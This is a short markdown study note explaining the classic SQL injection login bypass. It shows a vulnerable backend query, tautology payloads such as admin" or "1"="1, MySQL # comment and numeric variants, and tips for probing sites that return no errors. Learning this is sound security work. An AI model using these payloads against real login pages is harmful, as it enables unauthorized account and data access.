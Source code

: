 ```yaml
---
title: Classic Injection Bypass
tags: [security, sqli, web]
---
```


On Login Page the value for username and password is controlled by the user

````sql
-- Backend Query Sample
SELECT * 
FROM login 
WHERE username="$USERNAME" AND password="$PASSWORD"; 
````

We can enter the values as `admin" or "1"="1` which forms valid SQL query
1=1 is always true and the OR clause nullifies the WHERE statement

````sql
SELECT * 
FROM login 
WHERE username="admin" OR "1"="1" AND password="admin" OR "1"="1";
````

\# is considered as comment in MySQL. So second half off query is ignored

````sql
SELECT * 
FROM login 
WHERE username="admin" OR 1=1#" and password="admin";
````

Depending on DB being used different types of comments can be used
For string values " or ' will be used depending on DB
If the input field only takes numbers then `1' or 1=1#` can be used
Not all websites is going to produce error so play around with ', and, or (True and False) statements are check if desired output is produced